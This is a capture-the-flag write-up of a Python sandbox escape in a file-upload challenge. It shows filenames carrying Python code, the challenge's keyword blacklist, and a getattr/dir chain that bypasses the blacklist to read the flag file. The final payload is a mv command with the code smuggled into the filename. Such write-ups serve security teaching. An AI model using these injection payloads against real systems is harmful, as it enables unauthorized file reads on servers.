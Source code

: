 # The Most Secure File Uploader

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/1.png)

54/306 = 18% of the teams solved this challenge.

## Phase: Reconnaissance
Here we need to figure out how the challenge works, and figure out what we can exploit.


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/2.png)

Here we can see it's a file upload. File uploaders are often insecure, let's upload something.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/6.png)
![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/3.png)

We see that the URL say's it a php file, but the error message looks like python. This is probably just a trick to confuse you.

We know from this that it tries to do something with the filename, and we get a error. Let's upload something that does not end with a image extension (.jpg/.png etc).

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/4.png)


Okay, uploading something other than `*.png` we get an error. Here we try upload some different payloads and see what the output is.

`hej.vad.png` =>   Traceback (most recent call last): File "", line 1, in NameError: name 'hej' is not defined

`0.png` =>         File "", line 1 0.png ^ SyntaxError: invalid syntax

`AAAA).png` =>     File "", line 1 AAAA).png ^ SyntaxError: invalid syntax

`$flag.png`  =>    File "", line 1 .png ^ SyntaxError: invalid syntax

`__debug__.png` => Traceback (most recent call last): File "", line 1,
in AttributeError: 'bool' object has no attribute 'png'

`__debug__.__str__.png` => Traceback (most recent call last): File "", line 1, in AttributeError: 'method-wrapper' object has no attribute 'png'

`123456789[:-1].png` Traceback (most recent call last): File "", line 1, in TypeError: 'int' object has no attribute '__getitem__'

As you can see, when we did the CTF, we fell in the php trap and though the server was running php code. The more we tried, we noticed that it's definately python error messages.

And the breakthrough were when we added a # at the end to comment out the .png part as it seem to be failing on that line.

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/5.png)


### Blacklist
As we try upload some known python names, like `__class__.png`

![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/7.png)

...And there seem to be a blacklist.

Iterating over some known and `useful` python stuff we get the following blacklist:

`subprocesses|os|import|builtins|eval|locals|class|;|file`

and the file must end with a .png.


## Phase: Exploit - Python sandbox escape
From the reconnisance phase we notice the challenge is a Python sandbox escape.
Usually the flag is hidden on the server in a .txt file, so our goal is to read a file.

`().__class__.__base__.__subclasses__()[40]("flag.txt").read()`

Here is the line we want to execute, but from the reco phase we know that `__class__` and `__subclasses__` is blacklisted.
To circumvent this we need to figure out another way to run `__class__` and `__subclasses__`  without actually typing it.

```
>>> dir([])[1]
'__class__'
```

Okay, we can now write the `__class__` without directly typing it to bypass the blacklist.

```
>>> getattr((), dir([])[1])
<type 'tuple'>
```
This translates to `[].__class__`.

Okay so next we want to append `__base__`.

```
>>> getattr((), dir([])[1]).__base__
<type 'object'>
```
And now we want to append `__subclassses__`, but we know class is blacklisted so we have to bypass it somehow.

```
>>> dir(().__class__.__base__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
We've found the `__subclasses__`. Now we just have to write the same command without using class.

```
>>> dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```

Great! Let's extract what we want:
```
>>> dir(().__class__.__base__.__class__)[34]
'__subclasses__'
```

If we combine what we have so far:
```
getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])
<built-in method __subclasses__ of type object at 0x5610a5dd6980>
```

Adding () to call the `__subclasses__` function.

```
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
>>> getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]
<type 'file'>
>>>
```
Let's combine our payload and upload it to get the flag.
```mv payload.png "print getattr(getattr(getattr((), dir([])[1]),'__base__'),dir(getattr(getattr(getattr((), dir([])[1]),'__base__'),  dir([])[1]))[34])()[40]('flag').read()#.png"```


![alt text](https://raw.githubusercontent.com/flawwan/CTF-Writeups/master/inCTF2018/images/8.png)
